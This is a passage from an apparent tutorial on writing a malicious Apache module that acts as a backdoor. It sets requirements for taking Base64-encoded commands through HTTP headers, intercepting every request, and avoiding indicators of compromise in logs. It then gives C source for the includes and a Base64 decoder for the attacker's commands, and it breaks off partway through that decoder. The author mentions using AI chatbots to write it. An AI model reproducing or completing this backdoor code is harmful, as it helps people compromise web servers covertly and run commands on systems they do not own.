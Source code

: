 ### Technical Requirements

1. **Base64 encoding**: Commands should be transmitted in Base64 format, and output should be returned encoded as well
2. **Global interception**: The module should intercept all requests to the web application without being tied to a specific URL endpoint
3. **Header-based communication**: The server receives commands via HTTP request headers and returns output to the client
4. **Minimal footprint**: Avoid obvious indicators of compromise in standard logs

### Implementation Overview

With our technical requirements formalized, we can proceed with the backdoor implementation. Full disclosure: I leveraged AI chatbots and LLMs to accelerate the development process.

#### Core Imports

```c
#include "httpd.h"
#include "http_config.h"
#include "http_protocol.h"
#include "ap_config.h"
#include "http_request.h"
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
```

These headers provide the necessary Apache API functions and standard C libraries for our module.

#### Base64 Decoder Implementation

The decoder converts Base64-encoded commands received from the attacker into plaintext for execution:

```c
static unsigned char *b64decode(apr_pool_t *pool, const char *input, size_t *out_len) {
    size_t len = strlen(input);
    unsigned char *output = apr_pcalloc(pool, len);
    static const char b64_table[256] = {
        ['A']=0, ['B']=1, ['C']=2, ['D']=3, ['E']=4, ['F']=5, ['G']=6, ['H']=7,
        ['I']=8, ['J']=9, ['K']=10, ['L']=11, ['M']=12, ['N']=13, ['O']=14, ['P']=15,
        ['Q']=16, ['R']=17, ['S']=18, ['T']=19, ['U']=20, ['V']=21, ['W']=22, ['X']=23,
        ['Y']=24, ['Z']=25, ['a']=26, ['b']=27, ['c']=28, ['d']=29, ['e']=30, ['f']=31,
        ['g']=32, ['h']=33, ['i']=34, ['j']=35, ['k']=36, ['l']=37, ['m']=38, ['n']=39,
        ['o']=40, ['p']=41, ['q']=42, ['r']=43, ['s']=44, ['t']=45, ['u']=46, ['v']=47,
        ['w']=48, ['x']=49, ['y']=50, ['z']=51, ['0']=52, ['1']=53, ['2']=54, ['3']=55,
        ['4']=56, ['5']=57, ['6']=58, ['7']=59, ['8']=60, ['9']=61, ['+']=62, ['/']=63
    };

    size_t i = 0, j = 0;
    uint32_t buf = 0;
    int bits = 0;

    while (i < len) {
        char c = input[i++];
        if (c == '=' || c == '\0') break;
        if ((unsigned char)c > 127 || (b64_table[(unsigned char)c] == 0 && c != 'A'))
            continue;

        buf = (buf << 6) | b64_table[(unsigned char)c];
        bits += 6;
        if (bits >= 8) {
            bits -= 8;
            output[j++] = (buf >> bits) & 0xFF;
        }
```